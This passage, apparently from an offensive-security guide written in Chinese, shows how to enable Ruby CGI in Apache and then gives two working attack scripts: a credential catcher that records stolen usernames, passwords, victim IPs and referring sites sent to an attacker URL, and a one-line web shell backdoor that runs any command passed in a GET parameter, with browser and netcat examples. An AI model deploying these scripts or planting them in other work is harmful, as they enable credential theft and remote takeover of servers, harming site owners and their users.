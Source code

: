```
<Directory /var/www/[CGI FOLDER]>
        AddHandler cgi-script .rb
        Options +ExecCGI
</Directory> 
```

现在，将脚本放在`/var/www/[CGI FOLDER]`中。现在你可以使用它了。

```
#!/usr/bin/ruby
# CGI script gets user/pass | http://attacker/info.rb?user=USER&pass=PASS
require 'cgi'
require 'uri'

cgi  = CGI.new
cgi.header  # content type 'text/html'
user = URI.encode cgi['user']
pass = URI.encode cgi['pass']
time = Time.now.strftime("%D %T")

file = 'hacked_login.txt'
File.open(file, "a") do |f|
  f.puts time   # Time of receiving the get request
  f.puts "#{URI.decode user}:#{URI.decode pass}"    # The data
  f.puts cgi.remote_addr    # Remote user IP
  f.puts cgi.referer    # The vulnerable site URL
  f.puts "---------------------------"
end
File.chmod(0200, file)  # To prevent public access to the log file

puts "" 
```

### Web Shell^([1](#fn_1)) - 通过 GET 执行命令

如果你有一个支持 Ruby CGI 的服务器，你可以使用以下内容作为后门

```
#!/usr/bin/env ruby
require 'cgi'
cgi = CGI.new
puts cgi.header
system(cgi['cmd']) 
```

现在你可以简单地使用 web 浏览器、Netcat 或 WebShellConsole^([1](#fn_1))来执行你的命令。例如**浏览器**

```
http://host/cgi/shell.rb?cmd=ls -la 
```

**Netcat**

```
echo "GET /cgi/shell.rb?cmd=ls%20-la" | nc host 80 
```
